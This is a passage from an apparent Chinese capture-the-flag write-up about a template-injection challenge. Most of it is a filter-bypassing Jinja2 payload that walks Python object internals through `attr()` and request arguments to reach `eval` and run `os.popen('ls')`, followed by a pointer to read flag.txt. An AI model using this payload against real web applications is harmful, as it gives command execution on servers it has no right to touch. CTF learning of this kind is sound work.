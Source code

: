 ![](img/e15f2b894b694caacdb69eff37b509c3.png)
发现165是`warnings.WarningMessage`
最后构造出paylaod:

```
?guess={{%20({}|attr(request.args.x1)|attr(request.args.x2)|%20attr(request.args.x3)())|attr(request.args.x6)(165)|%20attr(request.args.x4)|%20attr(request.args.x5)|%20attr(request.args.x6)(request.args.x7)|attr(request.args.x6)(request.args.x8)(request.args.x9)}}
&x1=__class__
&x2=__base__
&x3=__subclasses__
&x4=__init__
&x5=__globals__
&x6=__getitem__
&x7=__builtins__
&x8=eval
&x9=__import__(%22os%22).popen("ls").read() 
```

![](img/f81fa061fc0e10f314cfd9c6d57ce010.png)
最后读取flag.txt即可
